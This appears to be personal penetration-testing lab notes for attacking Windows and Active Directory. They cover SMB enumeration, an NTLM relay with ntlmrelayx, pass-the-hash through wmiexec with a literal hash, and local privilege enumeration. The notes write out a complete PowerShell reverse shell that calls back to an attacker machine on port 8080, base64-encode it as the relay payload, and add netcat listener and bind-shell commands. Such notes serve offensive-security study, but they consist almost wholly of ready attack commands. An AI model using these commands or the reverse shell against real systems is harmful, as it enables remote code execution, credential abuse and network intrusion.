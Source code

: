   - Check for SMB signing is required
    `nmap --script smb2-security-mode -p445 <target>`
  - Enumerate SBD shares
    `smbclient -L \\\\<target> -N`
  - Starting ntlmrelayx for a Relay-attack targeting FILES02
    ```
    pwsh

    $Text = '$client = New-Object System.Net.Sockets.TCPClient("<kali>",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

    $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
    $EncodedText =[Convert]::ToBase64String($Bytes)
    $EncodedText

    #new terminal
    impacket-ntlmrelayx --no-http-server -smb2support -t <target> -c "powershell -enc JABj...=="
    ```
  - Starting a Netcat listener on port 8080 `nc -nvlp 8080`
  - create an SMB connection
    ```
    kali@kali:~$  nc 192.168.50.211 5555
    C:\Windows\system32>dir \\192.168.119.2\test
    ```
  - receive an incoming connection in netcat listener.  
- Windows credential guard  
  - Gain access to SERVERWK248 machine as CORP\Administrator (pass the hash)  
    `impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248`  

# Windows priviledge  
- Bind shell to target , port xxx
  `nc 192.168.124.220 4444` (Trial & Error port: 80,445,443,4444,8888,8080,9999)  
  `C:\Users\<user>>powershell`  
- Enumerating windows
  ```
  #User
  whoami
  systeminfo
  *whoami /user
  *whoami /priv
  *whoami /groups
  *net user <user>
  ipconfig /all
  ipconfig /all
  Get-Process
  
  #Users
  *Get-LocalUser （Need admin priviledge)
  
  #Group 
  *Get-LocalGroup
  *Get-LocalGroupMember <adminteam>

  #installed applications
  *Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  *Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  ```
